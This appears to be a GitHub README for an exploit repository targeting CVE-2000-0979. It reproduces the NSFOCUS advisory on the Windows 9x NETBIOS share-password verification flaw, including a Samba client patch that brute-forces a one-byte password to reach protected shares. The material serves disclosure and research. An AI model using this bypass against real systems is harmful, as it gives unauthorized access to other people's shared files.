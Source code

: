 # CVE-2000-0979


CVE-2000-0979.rb is the standalone tool to exploit CVE-2000-0979 against Windows 95 SMB service. 

msf_2000_0979.rb is the Metasploit module. You can copy this to ⁨metasploit-framework⁩ ▸ ⁨modules⁩ ▸ ⁨auxiliary⁩ ▸ scanner⁩ ▸ ⁨smb⁩

![MSF module](https://raw.githubusercontent.com/Z6543/CVE-2000-0979/master/msf.png)

More documentation coming soon! 


Original advisory
==================

NSFOCUS Security Advisory(SA2000-05)

Topic： Microsoft Windows 9x NETBIOS password verification vulnerability

Release Date： August 24, 2000
Update  Date： Oct 11 , 2000

Affected System
================
- Microsoft Windows 95
- Microsoft Windows 98
- Microsoft Windows 98 Second Edition
- Microsoft Windows Me

Non-affected System
====================
- Microsoft Windows NT 4.0
- Microsoft Windows 2000

Impact
==========

A vulnerability exists in the password verification scheme utilized by Microsoft
Windows 9x NETBIOS protocol implementation. This vulnerability will allow any
user to access the Windows 9x file shared service with password protection.
Attacker don't have to know the share password.

Description
=============

You can set password to protect Microsoft Windows 9x system's shared resources.
But a vulnerability exists in the password verification scheme utilized by
Microsoft Windows 9x NETBIOS protocol implementation. To verify the password,
the length of the password depends on the length of the data sent from client to
server. That is, if a client set the length of password to be one byte and send
the packet with plaintext password to server, the server will only compare it
with the first byte of the shared password(plaintext), and if consistent,
verification process is done. All an attacker need to do is to guess and try the
first byte of password in the victim .
Windows 9x remote management system is also affected cause it adopts the same
shared password authentication method.

Exploit
=========

Here is one simple example to demonstrate this bug.
Get samba source package and modify source/client/client.c like this:
```

--- samba-2.0.6.orig/source/client/client.c     Thu Nov 11 10:35:59 1999
+++ samba-2.0.6/source/client/client.c  Mon Sep 18 21:20:29 2000
@@ -1961,12 +1961,22 @@ struct cli_state *do_connect(char *serve

        DEBUG(4,(" session setup ok\n"));

+/*
        if (!cli_send_tconX(c, share, "?????",
                            password, strlen(password)+1)) {
                DEBUG(0,("tree connect failed: %s\n", cli_errstr(c)));
                cli_shutdown(c);
                return NULL;
        }
+*/
+
+        password[0] = 0;
+        c->sec_mode = 0;
+        do{
+
+          password[0]+=1;
+
+        }while(!cli_send_tconX(c, share, "?????", password, 1));

        DEBUG(4,(" tconx ok\n"));
```


Workaround
=========
Close Microsoft File and Print shared service.

Solution
===========
Microsoft has  been informed and released one security bulletin concerning this
flaw.

The bulletin is live at :

http://www.microsoft.com/technet/security/bulletin/MS00-072.asp

Patches are available at:

. Microsoft Windows 95

  Patch available shortly

. Microsoft Windows 98 and 98 Second Edition

  http://download.microsoft.com/download/win98SE/Update/11958/W98/EN-US/273991USA8.EXE

. Microsoft Windows Me

  http://download.microsoft.com/download/winme/Update/11958/WinMe/EN-US/273991USAM.EXE

DISCLAIMS
==========
THE INFORMATION PROVIDED IS RELEASED BY NSFOCUS "AS IS" WITHOUT WARRANTY OF ANY
KIND. NSFOCUS DISCLAIMS ALL WARRANTIES, EITHER EXPRESS OR IMPLIED, EXCEPT FOR
THE WARRANTIES OF MERCHANTABILITY. IN NO EVENTSHALL NSFOCUS BE LIABLE FOR ANY
DAMAGES WHATSOEVER INCLUDING DIRECT, INDIRECT, INCIDENTAL,CONSEQUENTIAL, LOSS OF
BUSINESS PROFITS OR SPECIAL DAMAGES, EVEN IF NSFOCUS HAS BEEN ADVISED OF THE
POSSIBILITY OF SUCH DAMAGES. DISTRIBUTION OR REPRODUTION OF THE INFORMATION IS
PROVIDED THAT THE ADVISORY IS NOT MODIFIED IN ANY WAY.

?Copyright 1999-2000 NSFOCUS. All Rights Reserved. Terms of use.


NSFOCUS Security Team <security@nsfocus.com>
NSFOCUS INFORMATION TECHNOLOGY CO.,LTD
(http://www.nsfocus.com)
